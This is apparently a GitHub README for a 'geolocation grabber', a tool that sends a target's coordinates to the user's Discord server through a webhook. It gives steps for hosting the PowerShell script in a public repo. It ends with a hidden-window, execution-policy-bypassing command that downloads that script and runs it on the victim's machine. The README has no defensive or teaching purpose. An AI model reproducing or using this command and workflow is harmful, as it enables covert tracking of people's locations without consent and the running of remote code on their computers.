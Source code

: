 # geoloaction-grabber
sends the coordinates of the target to your discord server via webhook
<p><p/>
<p><p/>
<p>download geolocationgraber.ps1.txt<p/>
<p>edit and replace WEBHOOK_HERE with your webhook url<p/>
<p>save <p/>
<p>crate a new repo in public <p/>
<p>add file <p/>
 ![image1](https://user-images.githubusercontent.com/93588803/209905806-c66ec56d-fc37-4d78-8274-f7050838d199.png) 
<p>put geolocationgraber.ps1.txt in and commit changes <p/>
<p>click geolocationgraber.ps1.txt<p/>
<p> <img src="github.com/quazi00/geoloaction-grabber/tree/main/images/image2" width="350" title="hover text"> <p/>
<p>click the pen<p/>
<p>del .txt<p/>
<p> <img src="github.com/quazi00/geoloaction-grabber/tree/main/images/image3" width="350" title="hover text"> <p/>
<p>commit changes <p/>
<p>you should be left with geolocationgraber.ps1<p/>
<p>click it<p/>
<p> <img src="github.com/quazi00/geoloaction-grabber/tree/main/images/image4" width="350" title="hover text"> <p/>
<p>click raw<p/>
<p>copy that link <p/>
<p><p/>
<p>paste that link in the line below where it says paste here <p/>
 ```powershell -w h -NoP -NonI -Exec Bypass iwr PASTE HERE | iex```  
